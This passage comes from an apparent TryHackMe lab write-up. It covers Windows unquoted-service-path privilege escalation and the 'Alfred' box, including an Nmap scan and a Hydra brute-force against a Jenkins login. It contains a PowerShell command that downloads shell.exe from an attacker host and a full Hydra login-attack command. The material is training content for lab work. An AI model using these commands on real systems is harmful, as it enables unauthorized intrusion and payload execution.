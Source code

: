 ```powershell
(Get-Acl -Path "C:\Program Files (x86)\IObit").Access
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.233.14:8000/shell.exe','shell.exe')"
- *Restart-Service* to restart the service with the unquoted path:

```powershell
Restart-Service AdvancedSystemCareService9
```

<br />

#### 2.2. Alfred (Hydra, Jekins & Token Impersonation).

In this case we are going to face a Windows machine. A por scanning with Nmap

```bash
nmap -T5 -p- <IP>
```

shown us that the machine have two http listening ports offering two web app services through two different web servers:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010094702.png' | relative_url }}" text-align="center"/>
</div>

Researching both web apps we found on which run on port 8080 a login portal:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010095016.png' | relative_url }}" text-align="center"/>
</div>

By the way, mapping the website seems to be useless. So we try to perfom a brute-force attack on the login page with Hydra. First based on some Osint job over the web pages and the web server we made a file with passwords candidates:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010100115.png' | relative_url }}" text-align="center"/>
</div>

And we use it in the following command:

```bash
hydra -L list.txt -P list.txt 10.10.179.245 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=Submit=Sign+in:Invalid username or password" -v
```

This command is built following the next stages:

- First, we employ the hydra comand and we pass him the list of usernames and passwords to be used with the -L and -P flags. For both we are using the same list.
- Then we pass the IP and, because the web app is offered through a not standard port we add the -s flag to define the port to be used to send the requests.
- Next we define the protocol in which we wanna send the request. Since we are using HTTP we have to select if the method is GET or POST, this can be found in the Inspector > Network and send a login request:
